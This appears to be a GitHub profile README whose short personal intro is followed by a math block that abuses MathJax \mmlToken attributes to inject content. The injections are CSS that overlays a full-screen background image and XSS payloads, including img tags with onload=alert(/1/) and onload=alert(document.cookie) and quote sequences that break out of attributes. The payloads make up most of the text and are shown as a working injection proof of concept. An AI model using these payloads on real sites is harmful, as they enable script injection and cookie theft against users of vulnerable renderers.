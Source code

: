 ### Hi there 👋
- 🔭 I’m currently working on some web projects
- 🌱 I’m currently learning PHP and MYSQL
- 🤔 I’m looking for help with html, css front-end code
- ⚡ Fun fact: Always online but not for the good reason
```math
\mmlToken{ms}[fontfamily="thxpewpew;background:color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true');"]{nowhere}
\mmlToken{ms}[fontfamily="thxpewpew;I'm in ur walls ;))"]{<YOOOO<></><img src='https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true' onload=alert(/1/)>}
\mmlToken{
<img src=x onload=alert(document.cookie) />
        <script>
<math>a <msup>x 2</msup> + b x + c</math>
        </script>
    }[fontfamily="imnothere;11111111111111111111111111111\"'><a></a>"]{demo}
```
